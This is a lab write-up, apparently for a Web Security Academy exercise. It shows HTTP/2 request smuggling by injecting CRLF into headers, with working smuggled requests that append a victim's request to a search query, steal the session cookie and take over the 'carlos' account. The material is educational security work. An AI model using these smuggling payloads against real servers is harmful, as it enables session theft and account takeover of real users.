 
The catch here is that HTTP/2 messages are binary rather than text-based, so the boundaries of each header are based on explicit, predetermined offsets rather than delimiter characters.

This means that `\r\n` no longer has any value, and can be included inside the value without causing any splitting.

When the request is rewritten as HTTP/1 request, then `\r\n` will be interpreted as a header delimiter.

For example:

```HTTP/2
Foo: bar\nTransfer-Encoding: chunked
```

```HTTP/1
Foo: bar
Transfer-Encoding: chunked
```

## CLFR Exploitation

The goal is to use CLFR vulnerability to gain access to another user's account. The victim accesses the home page every 15 seconds.

First let's capture the root request and send that to repeater. Change the method to `POST` and remove the unnecessary headers.

In order to verify the vulnerability, let's add the `Transfer-Encoding: chunked` but in the same line with another header, so the frontend will not see it.

`Foo: Bar\r\nTransfer-Encoding: chunked`

So the request will be:

```HTTP/2
...
Foo: Bar\r\nTransfer-Encoding: chunked

0

GET /dajlshdalked HTTP/1.1
X-Ignore: x
```

Always make sure that there will not be `\r\n` after the X-Ignore: x, as this will not allow the correct append of the victim's request.

When I send this, and then a normal request, I got a `404` meaning that the vulnerability is present.

Response
```http
HTTP/2 404 Not Found
```

Now, to exploit and gain access to the victim's account. For, this I will target its cookie.

In the main page, there is a search function, and if I search for something, that is stored in the "Recent searches", so I will use this to gain access to the victim's account.

![Pasted_image_20250116112611](https://github.com/user-attachments/assets/0a5c351d-796c-4029-9a29-cd9d35b7d840)

I modify my attack request in a way that the `Content-Length` is much longer than the actual body.

```http
...
Foo: Bar\r\nTransfer-Encoding: chunked

0

POST / HTTP/1.1
Host: 0a7a004804d6a19f80d6402b00bd0047.web-security-academy.net
Cookie: session=9QjWxUhrPKWLuxEXqD6HwnMDzlhrRNTj;
Content-Length: 1000
Content-Type: application/x-www-form-urlencoded

search=halilWashere
```

When I send this, a couple of times, as the victim visits the page every 15 seconds, the request of the victim will be appended to my search query. 

And I see that I have extracted the request, and there is also the cookie.
![Pasted_image_20250116113108](https://github.com/user-attachments/assets/627f9d1f-235a-4011-bbfe-e9b8d2a06fc5)

When I put this account's Cookie in Burp, I gain access to the `carlos` account.

![Pasted_image_20250116113425](https://github.com/user-attachments/assets/c077f0c9-6463-4869-9f9e-c8debfd0a034)
